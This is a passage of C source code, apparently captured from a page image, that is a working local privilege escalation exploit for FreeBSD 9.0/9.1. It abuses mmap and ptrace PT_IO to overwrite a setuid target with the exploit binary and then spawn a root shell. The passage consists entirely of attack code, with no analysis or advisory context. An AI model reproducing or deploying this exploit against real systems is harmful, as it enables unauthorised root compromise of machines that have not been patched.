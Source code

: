 ``` c++
   char *s, *d;
   pid_t pid;

   if (geteuid() == 0)  {
        setuid(0);
        execl(SH, SH, NULL);
        return 0;
   }

   printf("FreeBSD 9.{0,1} mmap/ptrace exploit\n");
   printf("by Hunger <fbsd9lul@hunger.hu>\n");

   if ((from_fd = open(av[0], O_RDONLY)) == -1 ||
        (to_fd = open(TG, O_RDONLY)) == -1)
                err(1, "open");

   if (stat(av[0], &st) == -1)
        err(2, "stat");

   if (((s = mmap(NULL, (size_t)st.st_size, PROT_READ,
        MAP_SHARED, from_fd, (off_t)0)) == MAP_FAILED) ||
                (d = mmap(NULL, (size_t)st.st_size, PROT_READ,
                        MAP_SHARED|MAP_NOSYNC, to_fd, (off_t)0)) == MAP_FAILED)
                                err(3, "mmap");

   if ((pid = fork()) == -1)
        err(4, "fork");

   if (!pid) {
        if (ptrace(PT_TRACE_ME, pid, NULL, 0) == -1)
                err(5, "ptraceme");

        return 0;
        }

   if (ptrace(PT_ATTACH, pid, NULL, 0) == -1)
        err(6, "ptattach");

   if (wait(&status) == -1)
        err(7, "wait");

   piod.piod_op = PIOD_WRITE_D;
   piod.piod_offs = d;
   piod.piod_addr = s;
   piod.piod_len  = st.st_size;

   if (ptrace(PT_IO, pid, (caddr_t)&piod, 0) == -1)
        err(8, "ptio");

   execl(TG, TG, NULL);

   return 0;
}
```
